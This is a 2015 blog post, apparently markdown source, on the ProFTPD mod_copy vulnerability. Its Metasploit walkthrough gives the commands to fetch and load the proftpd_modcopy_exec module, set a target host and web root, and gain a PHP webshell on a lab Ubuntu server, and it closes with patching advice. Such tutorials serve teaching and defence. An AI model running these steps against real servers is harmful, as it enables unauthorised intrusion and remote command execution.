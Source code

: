 +++
author = "Mansoor A"
date = 2015-08-27T18:23:18Z
description = ""
draft = false
slug = "proftp-vulnerability-could-allow-an-attacker-to-gain-a-shell-in-your-server"
title = "Hacking a Linux server by exploiting the FTP server ( Proftpd )"

+++


The vulnerability in the mod_copy module of Proftpd was disclosed a couple months back. Most servers using Proftp are still vulnerable to attacks as they're using older versions of the software. If you're using Proftpd version 1.3.5 or before, your server is vulnerable and it's just a matter of time before someone takes advantage of that vulnerability. So, I thought I'd do a write up about the same, including a demonstration of how easy and terrifying the situation is.

### Who all are affected?

Any Linux server running Proftp version < 1.3.5 are vulnerable.

### How does it work?

mod_copy is a module for the Proftp server, which implements the "SITE CPFR" & "SITE CPTO" command, using these commands the user can move around files or folders in the server. That is, normally, if you want to copy a file from one place in the server to another place using FTP, you'd have to transfer it to the local system, then upload it to the target location in the server. But, using mod_copy you can simply transfer it without having to download to your local system.

There is a vulnerability in the software which allows "ANY UNAUTHENTICATED" user to use the above commands to copy the files. That's right, any user.

### What is the impact, if someone exploits it?

Well, basically, they could have a shell in your server which is more than enough to do some serious sh#t.
In fact, I'll show you how you can exploit this vulnerability using metasploit. 
Yeah, that's right! someone wrote an exploit for this vulnerability and it works like a charm

### Let's try this!!

Let's try to exploit this vulnerability using metasploit and see if we're any successful. 
> PLEASE NOTE THAT THIS IS FOR EDUCATIONAL PURPOSES ONLY, TRY THIS ON DEVICES YOU'RE AUTHORIZED AND I WILL NOT BE RESPONSIBLE FOR YOUR ACTIONS.

I assume that you've metasploit all ready for action, let's jump right into it.

Here's my set up: I have an  ubuntu server running on VirtualBox and Kali Linux (my host machine) is the attacker.

#### Step 1 : Download the exploit into your computer. 
For that, open a terminal as root and download the exploit from <a href="https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb" target="_blank">HERE</a>

```shell
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb
```

Copy it into exploits folder.

```shell
cp proftpd_modcopy_exec.rb /usr/share/metasploit-framework/modules/exploits/unix/ftp/
```

#### Step 2: Open msfconsole. 
For that, open up a Terminal ( as root ) and type "msfconsole"

 ![Msfconsole](https://cdn.esc.sh/jekyll/posts/metasploit/msf2.png)

#### Step 3: Once metasploit is loaded, use the following command to load the exploit

```shell
use exploit/unix/ftp/proftpd_modcopy_exec
# After that, we have to set the remote host ( victim server )
set RHOST 192.168.1.102
set SITEPATH /var/www/html
```

You can always type "show options" to see all the options you have to set. Here, RHOST is the remote server we're trying to exploit. The "SITEPATH" is the document root for the webserver. Once you're all set, type "exploit" and press enter. That's it.

You should now have a session opened from the remote server where you can execute any command.

 ![Msfconsole](https://cdn.esc.sh/jekyll/posts/metasploit/msf3.png)

Here's what happened when you typed "exploit" and press enter. The exploit makes use of the vulnerability to upload a PHP webshell into the server and metasploit presents you with an interface to that shell where you can execute commands. Did you notice how easy was it to exploit the server? All we needed was the IP address of the server. Pretty scary huh?

### How to prevent this?

Just update the packages in your server and you should be fine. Keep yourself updated, Stay safe.!! 🙂


